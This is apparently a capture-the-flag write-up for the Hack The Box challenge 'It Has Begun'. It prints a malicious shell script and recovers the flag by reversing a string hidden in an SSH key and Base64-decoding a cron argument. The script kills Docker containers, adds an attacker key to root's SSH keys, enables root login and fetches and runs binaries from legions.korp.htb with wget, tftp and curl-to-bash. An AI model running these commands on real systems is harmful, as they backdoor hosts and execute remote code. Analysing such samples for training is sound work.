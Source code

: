# HTB Cyber Apocalypse 2024: Hacker Royale - It Has Begun

## Challenge

> The Fray is upon us, and the very first challenge has been released! Are you ready factions!? Considering this is just the beginning, if you cannot musted the teamwork needed this early, then your doom is likely inevitable.

## Metadata

- Difficulty: very easy
- Creator: `c4n0pus`
- Files: [`script.sh](files/script.sh)
- Docker: no
- Tags: `sh`, `script`
- Points: `300`
- Number of solvers: 

## Solution

We got a [`script.sh`](files/script.sh) shell script:

```bash
#!/bin/sh

if [ "$HOSTNAME" != "KORP-STATION-013" ]; then
    exit
fi

if [ "$EUID" -ne 0 ]; then
    exit
fi

docker kill $(docker ps -q)
docker rm $(docker ps -a -q)

echo "ssh-rsa AAAAB4NzaC1yc2EAAAADAQABAAABAQCl0kIN33IJISIufmqpqg54D7s4J0L7XV2kep0rNzgY1S1IdE8HDAf7z1ipBVuGTygGsq+x4yVnxveGshVP48YmicQHJMCIljmn6Po0RMC48qihm/9ytoEYtkKkeiTR02c6DyIcDnX3QdlSmEqPqSNRQ/XDgM7qIB/VpYtAhK/7DoE8pqdoFNBU5+JlqeWYpsMO+qkHugKA5U22wEGs8xG2XyyDtrBcw10xz+M7U8Vpt0tEadeV973tXNNNpUgYGIFEsrDEAjbMkEsUw+iQmXg37EusEFjCVjBySGH3F+EQtwin3YmxbB9HRMzOIzNnXwCFaYU5JjTNnzylUBp/XB6B user@tS_u0y_ll1w{BTH" >> /root/.ssh/authorized_keys
echo "nameserver 8.8.8.8" >> /etc/resolv.conf
echo "PermitRootLogin yes" >> /etc/ssh/sshd_config
echo "128.90.59.19 legions.korp.htb" >> /etc/hosts

for filename in /proc/*; do
    ex=$(ls -latrh $filename 2> /dev/null|grep exe)
    if echo $ex |grep -q "/var/lib/postgresql/data/postgres\|atlas.x86\|dotsh\|/tmp/systemd-private-\|bin/sysinit\|.bin/xorg\|nine.x86\|data/pg_mem\|/var/lib/postgresql/data/.*/memory\|/var/tmp/.bin/systemd\|balder\|sys/systemd\|rtw88_pcied\|.bin/x\|httpd_watchdog\|/var/Sofia\|3caec218-ce42-42da-8f58-970b22d131e9\|/tmp/watchdog\|cpu_hu\|/tmp/Manager\|/tmp/manh\|/tmp/agettyd\|/var/tmp/java\|/var/lib/postgresql/data/pоstmaster\|/memfd\|/var/lib/postgresql/data/pgdata/pоstmaster\|/tmp/.metabase/metabasew"; then
        result=$(echo "$filename" | sed "s/\/proc\///")
        kill -9 $result
        echo found $filename $result
    fi
done

ARCH=$(uname -m)
array=("x86" "x86_64" "mips" "aarch64" "arm")

if [[ $(echo ${array[@]} | grep -o "$ARCH" | wc -w) -eq 0 ]]; then
  exit
fi


cd /tmp || cd /var/ || cd /mnt || cd /root || cd etc/init.d  || cd /; wget http://legions.korp.htb/0xda4.0xda4.$ARCH; chmod 777 0xda4.0xda4.$ARCH; ./0xda4.0xda4.$ARCH; 
cd /tmp || cd /var/ || cd /mnt || cd /root || cd etc/init.d  || cd /; tftp legions.korp.htb -c get 0xda4.0xda4.$ARCH; cat 0xda4.0xda4.$ARCH > DVRHelper; chmod +x *; ./DVRHelper $ARCH; 
cd /tmp || cd /var/ || cd /mnt || cd /root || cd etc/init.d  || cd /; busybox wget http://legions.korp.htb/0xda4.0xda4.$ARCH; chmod 777;./0xda4.0xda4.$ARCH;
echo "*/5 * * * * root curl -s http://legions.korp.htb/0xda4.0xda4.$ARCH | bash -c 'NG5kX3kwdVJfR3IwdU5kISF9' " >> /etc/crontab
```

In the SSH key there it the first part of the flag reversed (`tS_u0y_ll1w{BTH`): `HTB{w1ll_y0u_St`

The last line of the script has the second part Base64 encoded (`NG5kX3kwdVJfR3IwdU5kISF9`): `4nd_y0uR_Gr0uNd!!}`

Flag: `HTB{w1ll_y0u_St4nd_y0uR_Gr0uNd!!}`